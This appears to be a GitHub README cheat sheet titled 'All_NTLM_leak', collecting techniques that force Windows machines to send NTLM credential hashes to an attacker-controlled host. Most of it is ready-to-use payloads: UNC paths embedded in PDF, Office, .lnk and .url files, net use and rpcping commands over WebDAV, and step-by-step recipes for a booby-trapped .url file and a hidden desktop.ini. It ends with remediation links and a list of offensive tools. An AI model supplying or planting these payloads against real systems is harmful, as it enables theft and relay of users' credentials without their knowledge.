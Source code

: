 # All_NTLM_leak


## PDF file
/F (\\\\\\\\IP@80\\\\t)

## dubdoc
///1.2.3.4@80/t
## Doc
Target=file://1.2.3.4@80/t.dotx
URL
file://IP@80/t.htm
## lnk
URL\=file://1.2.3.4@80/t.htm
## IconFile
\\\\1.2.3.4@80\\t.ico
## rpcping
rpcping -s 1.2.3.4 -e 1234 -a privacy -u NTLM
## dir
dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Net command + WebDAV envoke
* net use \\\\1.2.3.4@80\\t
* net use * \\\\1.2.3.4@SSL@443\\folder\\subfolder password /user:userID
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* net use * http://1.2.3.4/folder/subfolder password /user:root
* net use * \\\\1.2.3.4\\folder\\subfolder password /user:userID
* net use \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe \. (the DavWWWRoot triggers WebDAV forcibly )
* net use \\\\domain.site@80\\uri_folder\\index.html
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Create .url file to leak using “ICO” request to file share
Create a new TXT file and paste the following:<br/>
[InternetShortcut]  <br/>
URL=http://www.WeLoveResponder.com <br/>
IconIndex=0  <br/>
IconFile\=\\\\1.2.3.4\\L3\\3T.ico
Rename the file from .txt to .url

## Create desktop.ini file to leak credentials using a folder
mkdir Folder <br/>
attrib +s Folder <br/>
cd Folder <br/>
echo [.ShellClassInfo] > desktop.ini <br/>
echo IconResource\=\\\\1.2.3.4\\aa >> desktop.ini <br/>
attrib +s +h desktop.ini

## Proxy bypass adress is Intranet for NTLM auto auth
https://github.com/Gl3bGl4z/steal_NTLM_ncat

## Dir, IE/EDGE, Office, URL, LNK, HREF, Media Player, Java web start, ClickOnce
https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html

## Leak credentials using HTML
https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML

## Remediation
* https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd560653(v=ws.10)
* https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-outgoing-ntlm-traffic-to-remote-servers
* https://blogs.technet.microsoft.com/askds/2009/10/08/ntlm-blocking-and-you-application-analysis-and-auditing-methodologies-in-windows-7/

## KBs
* https://www.bleepingcomputer.com/news/security/understanding-the-windows-credential-leak-flaw-and-how-to-prevent-it/
* https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/
* https://www.helpnetsecurity.com/2017/05/15/stealing-windows-credentials-using-google-chrome/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/introducing-responder-10/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-17/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/top-five-ways-spiderlabs-got-domain-admin-on-your-internal-network/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-part-2/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/responder-20-owning-windows-networks-part-3/
* https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/
* https://twitter.com/mynameisv__/status/1123256857072742400
* https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Rpcping.yml
* https://github.com/cure53/HTTPLeaks

## tools
* https://github.com/deepzec/Bad-Pdf
* https://github.com/elnerd/Get-NetNTLM
* https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML
* https://github.com/cure53/HTTPLeaks
* https://github.com/SpiderLabs/Responder
* https://github.com/Kevin-Robertson/Inveigh
